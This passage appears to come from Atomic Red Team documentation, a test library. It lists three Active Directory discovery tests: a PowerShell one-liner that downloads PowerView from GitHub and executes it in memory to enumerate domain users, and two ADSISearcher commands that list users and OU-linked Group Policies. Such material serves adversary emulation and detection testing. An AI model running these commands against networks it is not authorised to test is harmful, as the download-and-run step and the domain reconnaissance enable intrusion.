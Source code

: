 **auto_generated_guid:** 93662494-5ed7-4454-a04c-8c8372808ac2

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainUser -verbose
```

<br/>
<br/>

## Atomic Test #12 - Enumerate Active Directory Users with ADSISearcher

The following Atomic test will utilize ADSISearcher to enumerate users within Active Directory.
Upon successful execution a listing of users will output with their paths in AD.
Reference: https://devblogs.microsoft.com/scripting/use-the-powershell-adsisearcher-type-accelerator-to-search-active-directory/

**Supported Platforms:** Windows

**auto_generated_guid:** 02e8be5a-3065-4e54-8cc8-a14d138834d3

#### Attack Commands: Run with `powershell`!

```powershell
([adsisearcher]"objectcategory=user").FindAll(); ([adsisearcher]"objectcategory=user").FindOne()
```

<br/>
<br/>

## Atomic Test #13 - Enumerate Linked Policies In ADSISearcher Discovery

The following Atomic test will utilize ADSISearcher to enumerate organizational unit within Active Directory.
Upon successful execution a listing of users will output with their paths in AD.
Reference: https://medium.com/@pentesttas/discover-hidden-gpo-s-on-active-directory-using-ps-adsi-a284b6814c81

**Supported Platforms:** Windows

**auto_generated_guid:** 7ab0205a-34e4-4a44-9b04-e1541d1a57be

#### Attack Commands: Run with `powershell`!

```powershell
(([adsisearcher]'(objectcategory=organizationalunit)').FindAll()).Path | %{if(([ADSI]"$_").gPlink){Write-Host "[+] OU Path:"([ADSI]"$_").Path;$a=((([ADSI]"$_").gplink) -replace "[[;]" -split "]");for($i=0;$i -lt $a.length;$i++){if($a[$i]){Write-Host "Policy Path[$i]:"([ADSI]($a[$i]).Substring(0,$a[$i].length-1)).Path;Write-Host "Policy Name[$i]:"([ADSI]($a[$i]).Substring(0,$a[$i].length-1)).DisplayName} };Write-Output "`n" }}
```
